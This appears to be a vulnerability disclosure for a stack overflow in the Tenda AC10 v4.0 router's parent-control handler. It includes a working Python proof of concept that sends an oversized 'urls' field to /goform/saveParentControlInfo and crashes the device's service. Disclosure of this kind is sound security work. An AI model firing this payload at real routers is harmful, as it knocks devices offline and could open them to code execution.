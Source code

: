 # Tenda Router Vulnerability on get_parentControl_list_Info function

> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.13 
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 V16.03.10.13 were discovered to contain a stack overflow via the `urls` parameter in the `get_parentControl_list_Info` function.

## Vulnerability Details

In function  `get_parentControl_list_Info`  line 34, it reads in a user-provided parameter `urls`, and the variable is passed to the function `strcpy` in line 52 without any length check, which may lead to overflow of the stack-based buffer.  As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.

![image-20231004162256517](assets/get_parentControl_list_Info_code.png)

## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```
import requests

ip = '192.168.0.1'
headers = {
    'Host': ip,
    'Accept': '*/*',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Connection': 'close',
}

urls = "w" * 1000
data = {
    'deviceId': '10:11:11:11:11:16',
    'deviceName': 'deviceNAME6',
    'enable': '1',
    'time': '19:00-20:00',
    'url_enable': '1',
    'urls': urls,
    'day': '1,1,1,1,1,1,1',
    'limit_type': '0',
}

response = requests.post(
   f'http://{ip}/goform/saveParentControlInfo',
    headers=headers,
    data=data,
    verify=False,
)
```

![image-20231003204540135](assets/crash1.png)

![image-20231004110508234](assets/crash2.png)

